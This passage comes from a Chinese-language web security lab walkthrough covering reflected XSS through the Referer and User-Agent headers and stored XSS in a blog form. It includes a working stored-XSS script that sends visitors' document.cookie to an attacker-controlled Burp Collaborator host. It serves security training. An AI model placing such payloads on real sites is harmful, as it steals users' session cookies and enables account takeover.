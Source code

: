 ### Medium

采用`addslashes`过滤输入，无效

## 0x10 XSS - Reflected(Referer)

该节功能为显示当前页面的Referer值

### Low

使用BP拦截请求，更改请求头中`Referer`为 `<script>alert(1)</script>`。直接触发XSS

### Medium

采用`addslashes`过滤输入，无效

## 0x11 XSS - Reflected(User-Agent)

同上

## 0x12 XSS - Stored(BLOG)

该节功能为用户输入一段字符串，服务器将其写入数据库。最后服务器将所有用户输入的内容返回到前端

### Low

直接输入`<script>alert(1)</script>`，服务器直接将其写入HTML，触发XSS

#### Stored XSS 获取用户cookie

首先需要打开 **Burp Collaborator Client**（Burp->Burp Collaborator Client），获取远程服务器地址，如下

![img](https://raw.githubusercontent.com/Mouka-Yang/WebPentest/master/screen_shots/企业微信截图_1561967699471.png)

将如下XSS代码写入文本框并提交（用刚才获取的服务器地址替换`YOUR-SUBDOMAIN-HERE`）

```html
<script>
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```

在Burp Client中查看结果如下

![img](https://raw.githubusercontent.com/Mouka-Yang/WebPentest/master/screen_shots/企业微信截图_15619681011595.png)

**当有用户访问该页面时，StoredXSS触发，并将其Cookie发给服务器**

### Medium

采用`addslashes`过滤输入，无效